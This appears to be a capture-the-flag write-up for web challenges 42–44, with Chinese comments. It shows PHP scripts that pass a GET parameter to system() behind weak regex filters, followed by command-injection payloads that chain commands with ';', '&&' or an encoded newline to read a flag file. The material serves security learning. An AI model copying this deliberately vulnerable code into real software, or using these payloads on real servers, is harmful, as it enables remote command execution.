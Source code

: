 https://blog.csdn.net/miuzzx/article/details/108569080

## web42

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1"); //错误输出也在标准输出里输出
}else{
    highlight_file(__FILE__);
}
```

```
?c=ls;ls //执行了前面一个命令并回显
```

```
?c=tac fl*;ls
```

## web43

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=tac%20f*%26%26ls  //url 编码前 ?c=tac f*&&ls
```

```
?c=nl flag.php%0a
```

```
?c=nl f*%26%26ls
```

## web44

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){  //比上题多过滤了空格
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
